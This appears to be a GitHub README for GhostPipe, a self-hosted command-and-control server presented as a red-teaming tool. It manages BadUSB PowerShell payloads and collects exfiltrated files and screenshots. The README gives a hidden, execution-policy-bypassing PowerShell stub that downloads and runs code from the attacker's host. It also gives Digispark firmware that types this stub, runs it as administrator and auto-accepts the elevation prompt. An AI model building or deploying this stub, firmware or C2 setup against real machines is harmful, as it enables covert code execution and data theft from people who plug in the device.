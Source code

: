 # GhostPipe C2 Server

GhostPipe is a minimal, simple, self-hosted Command-and-Control (C2) framework designed for red teaming and ethical hacking exercises.

It allows you to manage BadUSB PowerShell-based payloads, collect exfiltrated data, and operate via a responsive web UI optimized for both desktop and mobile.

You install GhostPipe on any server, flash your Digispark or BadUSB device with a tiny PowerShell stub that simply downloads whatever lives at `/x`, and then point it at your GhostPipe URL. From the web UI you can add, edit, activate or deactivate payloads on the fly. Therefore, the next time your device plugs in it will fetch the newest script, and any data it POSTs back to /exfil (text, files or even screenshots) is automatically collected, decoded and presented in your dashboard for review.


## 🔑 Features

  * Secure login with username/password (bcrypt-hashed)
  * Change username & password
  * Automatic session invalidation on password change
  * Create, edit, delete PowerShell payloads
  * Activate/deactivate payloads (single active payload at a time)
  * Export/import payloads as JSON
  * Collect exfiltrated data and save in database
  * Embedded thumbnails for screenshots


## 🛠️ Requirements

* Python 3.8+
* Flask 3.x
* Flask-Login
* Flask-Bcrypt
* SQLite3

Install dependencies with:

```bash
pip install flask flask-login flask-bcrypt
```


## ⚙️ Installation & Configuration

1. **Clone the repo**

```bash
git clone https://github.com/Nickguitar/GhostPipe.git
cd GhostPipe
```

2. **Configure environment variables** (optional — defaults shown):
```bash
export GHOSTPIPE_DB=c2.db
export GHOSTPIPE_SECRET=mysecretkey
export GHOSTPIPE_USER=admin
export GHOSTPIPE_PASS=Gh0stP!p3
```

3. **Initialize database and Start the server**:

```bash
python main.py
```

4. **Open your browser** at `http://localhost:8000/` and log in with your credentials.

## 🚀 Usage

* Flash the badUSB with the first stage code. This should be done only once to set up the USB device. See next section.
* First Log in with `admin:Gh0stP!p3`, and change password.
* Add Payload: Go to “Payloads” → Add ➕, enter a name and your PowerShell script, then Save.
* Import: You can also import a pre-built list of payloads. [See some examples here](EXAMPLES.md).
* Activate/Deactivate: Toggle the active payload via the toggle icons in the Actions column. The active payload is the one to be run when the badUSB script is executed.
* View Exfiltrated data: Click “View Exfiltrated Data” to see collected outputs from successful executions.
* Settings: Update username/password under the ⚙️ Settings button.

## Flashing the badUSB with first stage

Paste the following code into [Duckify](https://duckify.huhn.me/), changing `<YOUR_HOST>:8000` to your public facing URL with GhostPipe. Make sure to select correctly the keyboard layout, otherwise it will break the slashes when typing it:

```
STRING powershell -NoP -NonI -WindowStyle hidden -Exec Bypass iwr https://<YOUR_HOST>.com/x|iex
```

It should generate the constant `const uint8_t key_arr_0[] PROGMEM = {...}`. Copy it and replace in the following code. 

```cpp
#include "DigiKeyboard.h"

// powershell -NoP -NonI -WindowStyle hidden -Exec Bypass iwr https://<YOUR_HOST>.com/x|iex
// CHANGE THIS:
const uint8_t key_arr_0[] PROGMEM = {0,19, 0,18, 0,26, 0,8, 0,21, 0,22, 0,11, 0,8, 0,15, 0,15, 0,44, 0,45, 2,17, 0,18, 2,19, 0,44, 0,45, 2,17, 0,18, 0,17, 2,12, 0,44, 0,45, 2,26, 0,12, 0,17, 0,7, 0,18, 0,26, 2,22, 0,23, 0,28, 0,15, 0,8, 0,44, 0,11, 0,12, 0,7, 0,7, 0,8, 0,17, 0,44, 0,45, 2,8, 0,27, 0,8, 0,6, 0,44, 2,5, 0,28, 0,19, 0,4, 0,22, 0,22, 0,44, 0,12, 0,26, 0,21, 0,44, 0,11, 0,23, 0,23, 0,19, 0,22, 2,56, 64,20, 64,20, 2,54, 2,28, 2,18, 2,24, 2,21, 2,45, 2,11, 2,18, 2,22, 2,23, 2,55, 0,55, 0,6, 0,18, 0,16, 64,20, 0,27, 2,100, 0,12, 0,8, 0,27};

void duckyString(const uint8_t* keys, size_t len) {  
    for(size_t i=0; i<len; i+=2) {
        DigiKeyboard.sendKeyStroke(pgm_read_byte_near(keys + i+1), pgm_read_byte_near(keys + i));
    }
}

void setup() {
    pinMode(1, OUTPUT);
    digitalWrite(1, LOW);
    DigiKeyboard.sendKeyStroke(0); // Tell computer no key is pressed
    DigiKeyboard.delay(1000);
    DigiKeyboard.delay(200);
    DigiKeyboard.sendKeyStroke(21, 8); // GUI r
    DigiKeyboard.delay(700);
    duckyString(key_arr_0, sizeof(key_arr_0)); // STRING powershell -NoP -NonI -WindowStyle hidden...
    DigiKeyboard.delay(200);
    DigiKeyboard.sendKeyStroke(40, 3); // CTRL SHIFT ENTER (execute as admin)
    DigiKeyboard.delay(1000);
    DigiKeyboard.sendKeyStroke(28, 4); // ALT y
    DigiKeyboard.delay(200);
    digitalWrite(1, HIGH); // Turn LED on
}

void loop() {}
```